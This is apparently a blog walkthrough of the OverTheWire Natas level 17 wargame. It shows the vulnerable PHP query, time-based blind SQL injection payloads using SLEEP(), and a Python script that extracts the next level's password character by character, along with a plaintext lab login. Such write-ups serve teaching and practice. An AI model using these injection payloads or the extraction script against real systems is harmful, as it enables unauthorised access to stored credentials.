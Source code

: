 ```yaml
---
title: "Overthewire Natas 17 Walkthrough"
layout: post
date: 2018-04-10 21:44
image: /assets/images/markdown.jpg
headerImage: false
tag:
- ctf
- overthewire
- natas
- wargames
star: true
category: project
author: Hisham Alshaikh
description: This is just a walkthrough for overthewire's natas level 17
---
```


## Challenge

![Markdown Image](/assets/images/natas_17_solution/challenge_page.png)

{% highlight php %}
<? 
/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas17', '<censored>'); 
    mysql_select_db('natas17', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
    if(mysql_num_rows($res) > 0) { 
        //echo "This user exists.<br>"; 
    } else { 
        //echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        //echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
?> 
{% endhighlight %}

The goal of this challenge is to exploit a blind SQL injection vulnerability in order the to read the 'password' column for the username natas18, so we obtain the password for the next level. 


## Solution


Reading the source code we can find out that we have control over the username field in the SQL query. We can do a proof of concept that this blind sql injection works by using SLEEP() function; we will know it works if it took a longer time to respone.

{% highlight raw %}
natas18" and sleep(5)#
{% endhighlight %}


Now we can do the same sleep() technique in order to know the characters in the password. So we will send a query for querying some character in the password field, and if it exists a delay will happen, if not nothing will happen. 

{% highlight raw %}
natas18" AND IF(password LIKE BINARY "%0%", SLEEP(100), null) #
{% endhighlight %}


Now we can automate all of this proccess of getting natas18 password using the following python script.

{% highlight python %}
#!/usr/bin/python
#h15h4m


import requests
from requests.auth import HTTPBasicAuth


http_username = "natas17"
http_password = "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"
target =  "http://natas17.natas.labs.overthewire.org/"
http_login=HTTPBasicAuth(http_username, http_password)
chars_to_check = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
password_chars_found = ''
password = ''
r = requests.get(target, auth=http_login)

if  r.status_code != requests.codes.ok:
    print "[-] Check Authentication"
    exit()


print "[!] We are in"



#natas18" AND IF(password LIKE BINARY "%0%", SLEEP(100), null) #

for i in chars_to_check:
    payload = 'natas18" AND IF(password LIKE BINARY "%'+ i +'%", SLEEP(5), null) %23'
    try:
        r = requests.get(target + "index.php?debug=1&username=" + payload, auth=http_login,timeout=1)
    except:
        print "[+] Timeout: Char Found " + i
        password_chars_found += i

print '[!] Found Chars ' + password_chars_found

#md5 32 chars
for i in range(32):
    for ii in password_chars_found:
        payload = 'natas18" AND IF(password LIKE BINARY "'+ password + ii +'%", SLEEP(5), null) %23'
        try:
            r = requests.get(target + "index.php?debug=1&username=" + payload, auth=http_login,timeout=1)
        except:
            print "[+] Timeout: Char Found " + ii
            password += ii
            break


print '[!] PASSWORD = ' + password

#print r.content
{% endhighlight %}



![Markdown Image](/assets/images/natas_17_solution/final_result.png)


